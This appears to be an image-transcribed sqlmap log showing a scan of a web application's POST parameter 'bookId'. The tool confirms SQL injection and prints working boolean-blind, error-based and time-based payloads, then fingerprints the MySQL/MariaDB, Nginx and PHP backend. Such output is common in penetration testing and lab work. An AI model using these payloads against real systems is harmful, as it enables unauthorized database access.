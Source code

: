 ```
[20:49:26] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[20:49:26] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[20:49:27] [INFO] POST parameter 'bookId' is 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[20:49:27] [INFO] testing 'MySQL inline queries'
[20:49:27] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[20:49:27] [WARNING] time-based comparison requires larger statistical model, please wait.. (done)
[20:49:27] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[20:49:27] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[20:49:27] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[20:49:27] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[20:49:27] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[20:49:27] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:49:37] [INFO] POST parameter 'bookId' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[20:49:37] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:49:37] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:49:37] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[20:49:38] [INFO] target URL appears to have 4 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N]

injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]

[20:49:50] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[20:49:51] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]

[20:49:58] [INFO] testing 'MySQL UNION query (67) - 1 to 20 columns'
[20:50:00] [INFO] testing 'MySQL UNION query (67) - 21 to 40 columns'
[20:50:02] [INFO] testing 'MySQL UNION query (67) - 41 to 60 columns'
[20:50:03] [INFO] testing 'MySQL UNION query (67) - 61 to 80 columns'
[20:50:04] [INFO] testing 'MySQL UNION query (67) - 81 to 100 columns'
POST parameter 'bookId' is vulnerable. Do you want to keep testing the others (if any)? [y/N]

sqlmap identified the following injection point(s) with a total of 242 HTTP(s) requests:
---
Parameter: bookId (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: bookId=(SELECT (CASE WHEN (2885=2885) THEN 123 ELSE (SELECT 4954 UNION SELECT 8129) END))

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: bookId=123 OR (SELECT 4159 FROM(SELECT COUNT(*),CONCAT(0x71627a7171,(SELECT (ELT(4159=4159,1))),0x71787a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: bookId=123 AND (SELECT 1298 FROM (SELECT(SLEEP(5)))yKJD)
---
[20:50:10] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.20.2, PHP 7.3.33
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```